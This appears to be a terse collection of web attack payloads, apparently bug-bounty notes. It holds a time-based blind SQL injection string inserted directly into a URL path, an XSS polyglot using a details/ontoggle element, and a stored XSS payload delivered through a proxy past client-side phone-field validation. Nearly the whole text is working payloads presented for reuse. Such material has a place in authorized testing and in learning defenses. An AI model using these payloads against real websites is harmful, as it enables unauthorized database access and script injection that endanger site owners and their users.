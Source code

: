 
Inject In Url Its Self Without any Parameter

Payload was Here
/0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z/
as This In Url so We Have [Multiple SQL Injection] 

---------------------------------------------
xss Payloads:
<details++on+/ontoggle%3d1%5econfirm(document.domain)+open//

Test multiple XSS scenarios with ONE payload.  

https://pastebin.com/4zADMK1u
-----------------------------------------------
Bug: Stored XSS 

Tried to input XSS payload through proxy.

Phone Number Field-
Through Browser: Only Numeric Digits allowed (Alphabet and Special Characters Blocked)

Through Burp Proxy: 123"><svg+onload=prompt(document.domain)> (Stored XSS)
---------------------------------------------------------
